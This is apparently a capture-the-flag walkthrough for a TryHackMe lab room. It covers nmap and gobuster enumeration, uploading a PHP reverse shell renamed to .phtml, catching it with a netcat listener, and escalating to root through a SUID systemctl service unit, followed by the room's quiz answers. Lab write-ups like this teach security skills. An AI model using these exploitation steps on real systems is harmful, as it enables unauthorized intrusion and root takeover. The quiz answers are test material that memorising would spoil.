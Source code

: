 Hi!

Let's start!

1. To begin with, we must classically connect to a VPN using OpenVPN.
Go to your [profile](https://tryhackme.com/access), download the file to connect, go to "/Downloads" and create the new
terminal:

```$ openvpn <Name>.ovpn ```

2. After that, we open the quest no. 1 and launch the instance (Deploy).

3. After all this, we can slowly start. The first thing we do is scan the machine:

```$ nmap -sC -sV -T4 -A <IpAdress> -oA nmap.nmap```

4. Scanning show us  the Apache server is running on port "3333". So we type in your browser
Address: Ip: 3333 and we look at what's on it.

5. Now, due to the fact that searching manually for paths on the page can be very monotonous and ineffective, we will use dirb,
dirbuster, wfuzz, gobuster. Depending on what is more convenient for you. I will use a gobuster:

```$ gobuster dir -u http://<ip>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt```

6. After a while we find the path "/internal", so we check to see what's there. (Ip: 3333 / internal). We can see that on the site
we can send files to the server. The first thing we check is what files can be sent. Mostly cases can be omitted.

7. Since I'm on the "Kali" system, I will use PHP shell. Copy reverse-shell to your working directory:

```$ cp /usr/share/webshells/php/php-reverse-shell.php .```

8. We now need to edit the file to our Ip and Port address. The Ip address is the address that appears after "ifconfig" is entered
next to "tun0" (your ip in VPN). The port set on the "hacker" 4444. ($ ip, $ port). And let's save the file.
(I used the "nano" editor, but you can use the editor that is more convenient for you, e.g. "vi")

9. To intercept reverse shell it would be nice to listen to the port we set up. We will use "NetCat" for this:

```$ nc -nlvp 4444``` (<--port)

10. You can make copies of this file to different ".html" ".php" ".php1" ".php2" ".php5" ".phtml" paths. I checked
trying to upload files manually, but you can use for example "BurpSuite".

11. After checking, the server managed to send the file with the extension ".phtml". So we check where the file was uploaded to
to do this, add "/ uploads" to the path and see reverse file.

12. We click on the file on the server (in the browser) and in the terminal where we started netcat we see the connection and can start issuing commands.

13. Typing for example "id" "whoami" we can see our permissions.

14. At this point, we need to see what we are authorized to do when entering e.g. home:
```
$ cd /home
$ ls
$ cd bill
$ cat user.txt
```

15. The first "flag" for the user was displayed.

16. Now we are looking for SUID binaries. SUID stands for the permissions of a given user to certain files:

```$ find / -user root -perm -4000 -print 2>/dev/null```

17. We now see a few files with the SUID flag set.

18. Now we need to make an attack called "Privilege Escalation" to elevate our system privileges. By scanning
the SUID flag we found a file named "systemctl".

Systemctl is a binary file that controls user interfaces and is responsible e.g. for services run during boot.
By default, systemctl will search files in "/ etc / system / systemd" in order to search and service units.

19. On this machine we cannot create new files in the paths belonging to root, but we can change the variables environment in an already existing one, so we can do PrivEsc.

20. The first thing we do is create an environment variable:

```$ priv=$(mktemp).service```

Now we need to create a unit file and assign it to an environment variable:
```
$ echo '[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
[Install] 
WantedBy=multi-user.target' > $priv
```

( Don't be afraid to use enter until the end of '<- then you can continue typing on a new line. )

21. What we just did is create a service that will execute "Bash", then read the falge from root's root directory and save it to the file / flag in the "/ opt" directory.

22. Now we need to fire the unit file with "systemctl".

```$ /bin/systemctl link $priv

$ /bin/systemctl enable --now $priv
```

23. Now we can see the flag file in the directory "/opt".

```$ cat flag```

24. That's it. We just executed the command for the root user.

// Completing the headings

Task 2.

1) 6

2) 3.5.12

3) 400

4) DNS

5) Ubuntu

6) 3333

Task 3.

1) /internal/

Task 4.

1) .php

2) .phtml

3) bill

4) YOUR USER FLAG 

Task 5.

1) /bin/systemctl

2) YOUR ROOT FLAG 
